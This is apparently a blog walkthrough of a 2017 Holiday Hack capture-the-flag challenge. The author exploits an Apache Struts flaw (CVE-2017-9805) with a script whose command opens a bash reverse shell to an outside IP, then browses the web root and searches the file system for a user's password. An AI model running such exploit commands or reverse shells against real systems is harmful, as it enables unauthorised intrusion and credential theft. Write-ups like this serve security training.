 I ran the aforementioned `cve-2017-9805.py` exploit with the following syntax to kick the exploit off, ensuring I pointed it at the https://dev.northpolechristmastown.com/orders.xhtml endpoint.

```bash
python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c "/bin/bash -i > /dev/tcp/203.59.106.231/9001 0<&1 2>&1"
```

The exploit fired

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge01-struts-exploit-attack.jpg" />

And the listener suddenly filled up with a script prompt, giving me remote access to a user named `alabaster_snowball`'s session.

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge01-struts-exploit-listener.jpg" />

Having access to the server, the first thing I set my sights on was finding the Great book page on the web server. I checked the usual spot for the `www` config in `/var/www/html/` where I found the root location of the original letters 2 santa website.

```bash
alabaster_snowball@l2s:/tmp/asnow.kyweXWGHZ8tJgJSjh5qurHmR$ cd /var/www/html/
cd /var/www/html/

alabaster_snowball@l2s:/var/www/html$ ls
ls

css
fonts
GreatBookPage2.pdf
imgs
index.html
js
process.php
alabaster_snowball@l2s:/var/www/html$
```

It was here I found the GreatBookPage2.pdf file. I checked, and confirmed that I could download the page from https://l2s.northpolechristmastown.com/GreatBookPage2.pdf.

The Books title was **On the Topic of Flying Animals**.

The next part of the challenge was to find Alabaster Snowball's password. I knew that the username was `alabaster_snowball`, so it gave me a search parameter to start with. I tried using the find command first to find instances with `alabaster_snowball` on the file system. I also guessed that it's likely the password; if anywhere would be placed inside a file somewhere.

```bash
alabaster_snowball@l2s:/tmp/asnow.10X4HkAZntmGtaJknhZpqM3X$ /usr/bin/find / -type f -exec grep -l "alabaster_snowball" {} \;
```

I waited, and waited and waited... but no results were coming up at all. Eventually I started getting thousands and thousands of Permission denied messages, which was the find command unable to read the files it was encountering.
